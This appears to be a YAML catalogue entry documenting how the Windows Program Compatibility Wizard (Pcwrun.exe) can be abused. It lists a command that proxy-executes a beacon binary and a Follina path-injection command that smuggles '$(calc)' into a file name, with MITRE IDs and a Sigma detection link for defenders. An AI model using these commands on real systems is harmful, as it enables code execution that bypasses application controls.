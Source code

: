 ```yaml
---
Name: Pcwrun.exe
Description: Program Compatibility Wizard
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: Pcwrun.exe c:\temp\beacon.exe
    Description: Open the target .EXE file with the Program Compatibility Wizard.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
  - Command: Pcwrun.exe /../../$(calc).exe
    Description: Leverage the MSDT follina vulnerability through Pcwrun to execute arbitrary commands and binaries. Note that this specific technique will not work on a patched system with the June 2022 Windows Security update.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
    Tags:
      - Execute: EXE
Full_Path:
  - Path: C:\Windows\System32\pcwrun.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6199a703221a98ae6ad343c79c558da375203e4e/rules/windows/process_creation/proc_creation_win_lolbin_pcwrun_follina.yml
Resources:
  - Link: https://twitter.com/pabraeken/status/991335019833708544
  - Link: https://twitter.com/nas_bench/status/1535663791362519040
Acknowledgement:
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: Nasreddine Bencherchali
    Handle: '@nas_bench'
---
```

